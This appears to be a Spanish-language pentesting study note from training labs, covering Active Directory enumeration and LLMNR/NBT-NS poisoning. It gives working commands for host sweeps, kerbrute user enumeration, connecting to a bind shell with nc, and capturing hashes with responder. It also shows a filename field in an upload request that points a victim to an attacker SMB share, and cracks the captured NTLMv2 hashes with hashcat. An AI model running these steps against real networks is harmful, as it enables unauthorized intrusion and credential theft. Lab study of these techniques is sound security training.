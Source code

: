 #enum

## Key data points

|**Elemento**|**Descripción**|
|---|---|
|`AD Users`|Enumerar usuarios para password spraying.|
|`AD Joined Computers`|Identificar DCs, servidores SQL, web, Exchange, etc.|
|`Key Services`|Kerberos, NetBIOS, LDAP, DNS.|
|`Vulnerable Hosts`|Buscar hosts rápidos de explotar.|

## Herramientas
- Identificación pasiva seguida de validación activa 
### `fping`: Búsqueda masiva de IP´s por ICMP
```bash
fping -asgq 172.16.5.0/23
```
- Después podemos utilizar nmap con los targets obtenidos
	```bash
	sudo nmap -v -A -iL hosts.txt -oN /home/htb-student/Documents/host-enum -oN allTargets
	```
### `kerbrute`: Enumerar usuarios
Interesante utilizar junto con listas como `jsmith.txt` o `jsmith2.txt` de [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames)
```bash
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```
Si da algún problema con el output, se pueden conseguir los mismos resultados del siguiente modo: 
```bash
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
cat valid_ad_users | grep VALID | awk '{print $7}' > usernamesDomain.txt
```
## LLMNR/NBT-NS Possoning
[Link-Local Multicast Name Resolution](https://datatracker.ietf.org/doc/html/rfc4795) (LLMNR) and [NetBIOS Name Service](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc940063(v=technet.10)?redirectedfrom=MSDN) (NBT-NS) son métodos alternativos de resolución de nombres que pueden ser usados cuando falla el DNS. Cualquier host puede responder utilizando alguno de los protocolos mencionados. 
## Linux - `responder`
- Aunque hay muchas maneras en las que se puede capturar un hash, en `offsec` nos ponen un ejemplo muy simple en el que nos podemos conectar a través de una `bindshell` preparada por ellos
	```bash
	nc $target 4444
	# una vez conectados, intentamos acceder al contenido inexistente de una carpeta en dond está corriendo responder
	dir  \\$vpnip\test
	# y responder capturará el hash
	```
- Otra idea interesante es: en una web en la que podemos subir archivos, hacer que el nombre del archivo apunte a un recurso `smb` inexistente
	```bash
	Content-Disposition: form-data; name="myFile"; filename="\\\\192.168.45.244\test"
	```
### Configuración - `responder.conf`
Se pueden configurar los protocolos sobre los que actúar. Por defecto alojado en: 
```
/usr/share/responder
```
### Logs
Además de mostrar por pantalla los logs, responder guarda en un log la información recopilada: 
```
/usr/share/responder/logs
```
### Responder con configuración por defecto
```bash
sudo responder -I ens224
```
### Craquear NTMLv2 con hashcat
El hash que se captura en el paso anterior es un hash NTMLv2 ( [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)) 
```bash
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt

